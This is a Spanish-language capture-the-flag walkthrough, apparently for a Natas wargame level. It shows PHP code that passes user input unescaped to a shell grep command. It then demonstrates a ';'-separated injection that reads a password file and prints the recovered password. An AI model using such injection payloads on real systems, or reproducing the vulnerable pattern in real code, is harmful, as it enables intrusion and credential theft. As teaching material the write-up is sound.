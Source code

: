 Si inspeccionamos el HTML, vemos que es similar al del nivel anterior.
Inspeccionamos el código fuente.

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Debido a que lo que enviamos se ejecuta de forma directa en nuestro programa,
podremos armar una cadena que ejecute un comando arbitrario. Para esto,
utilizamos el simbolo `;`, que es interpretado en bash como un separador de
comandos. También podemos utilizar `#` para comentar el resto del comando.

```bash
$ grep -i ; cat /etc/natas_webpass/natas10 # dictionary.txt
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```
